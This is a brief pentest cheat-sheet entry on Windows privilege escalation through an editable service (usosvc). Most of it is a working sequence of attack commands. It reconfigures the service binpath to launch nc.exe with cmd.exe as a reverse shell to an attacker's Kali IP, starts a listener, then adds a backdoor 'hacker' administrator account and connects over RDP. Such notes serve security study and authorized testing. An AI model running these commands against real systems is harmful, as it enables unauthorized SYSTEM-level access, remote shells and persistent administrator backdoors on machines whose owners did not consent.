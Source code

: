 Editable Service

# Editable Service

If you find a service that is editable (WinPEAS can help here to find such services) you can edit the binpath to point to nc.exe to get a reverse shell. 

Steps also described here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc

Note: in both my experiences using this, this does get shell, but it closes in a few seconds.

  1. Upload `nc.exe` to a writable directory.
  2. `sc config usosvc binpath= "C:\Inetpub\wwwroot\nc.exe -nv <kali_IP> 9988 -e C:\Windows\System32\cmd.exe"`
  3. `sc config usosvc  obj= ".\LocalSystem" password= ""`
     - I didn't need this second time using it
  5. `sc config usosvc start= "demand"`
  6. `nc -lvp 9988` (setup listener on kali)
  7. `net start usosvc`
  8. R00T!
	
Since shell closes soon, add new admin user:
1. `net user hacker h@ck3r%93 /add`
2. `net localgroup administrators hacker /add`

Now RDP/ssh with new creds (if services are available, or you can open them yourself):
1. `rdesktop <target>`
2. R00T!

The shell closes due to a Windows timeout variable in the registry that defines how long to wait for a service to response. If you're in a position to edit that (i.e. ssh/rdp not enabled) this would stabilize the shell.
If you don’t want to edit the registry, since you're admin for a bit with this shell, you could try enabling RDP or SSH.